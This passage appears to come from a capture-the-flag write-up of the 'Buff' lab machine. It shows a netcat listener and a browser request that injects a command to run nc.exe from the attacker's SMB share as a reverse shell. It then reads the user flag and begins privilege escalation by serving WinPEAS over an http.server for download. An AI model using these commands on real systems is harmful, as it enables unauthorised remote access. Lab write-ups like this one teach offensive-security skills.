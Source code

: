 Now, in our linux environment, we will listen in on port [PORT]
```bash
nc -lvnp [PORT]
```
So, let's ask for a "reverse shell" by executing the following request in the browser:
```bash
...?telepathy=\\[Our IP]\smbFolder\nc.exe -e cmd [Our IP] [PORT]
```
![reverse_shell](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/reverse_shell.PNG)


The user flag is located at:
```
...cd C:\Users\shaun\Desktop
```
```
...type user.txt
```
```: XXXXXXXXXXXXXXXXXXXXXXX```



# Buffer Overflow Exploitation and Privilege Escalation
****
For this part i will be using a Windows Environment to fully understand the Buffer Overflow, however, this step is "not completely necessary" but I recommend to do it to fully understand how the whole process around the exploitation of the Buffer Overflow and subsequent Privilege Escalation on this machine works.

**But First:**
Once we have the reverse shell, we will go to the 'C:\Windows\Temp' directory
Once there, we will make a "Recon" directory and upload a WinPEAS.exe file to the machine. This will help us to enumerate the system

we can download WinPEAS from: https://github.com/carlospolop/PEASS-ng/releases/tag/20240331-d41b024f

We are able to upload the WinPEAS.exe file by serving an http.server on our linux machine, then, using the "curl" tool, downloading winPEAS
```bash
[Our linux system]python3 -m http.server 80
```
